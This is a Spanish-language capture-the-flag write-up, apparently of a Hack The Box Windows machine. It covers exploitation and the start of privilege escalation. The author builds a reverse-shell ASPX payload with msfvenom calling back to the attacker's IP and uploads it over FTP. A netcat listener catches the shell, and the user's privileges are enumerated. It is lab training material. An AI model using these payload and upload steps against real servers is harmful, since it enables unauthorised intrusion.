 ### Explotación

* * *

Ya que tenemos la posibilidad de subir archivos por FTP, vamos a crear un archivo aspx malicioso con la herramienta `msfvenom` para entablar una reverse shell con la máquina víctima

```java
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.91 LPORT=443 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2741 bytes
```

Procedemos a subir por FTP el archivo a la máquina víctima

```java
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2779 bytes sent in 0.00 secs (94.6522 MB/s)
ftp> 
```

Nos abrimos un listener por el puerto 443, ejectuamos desde el navegador el archivo malicioso y ya tenemos una shell operativa

```java
❯ sudo nc -nlvp 443
[sudo] password for yorch: 
listening on [any] 443 ...
connect to [10.10.14.91] from (UNKNOWN) [10.10.10.5] 49158
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

### Escalada Privilegios

* * *

Empezamos con la enumeración listando privilegios asignados al usuario

```java
c:\Users>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```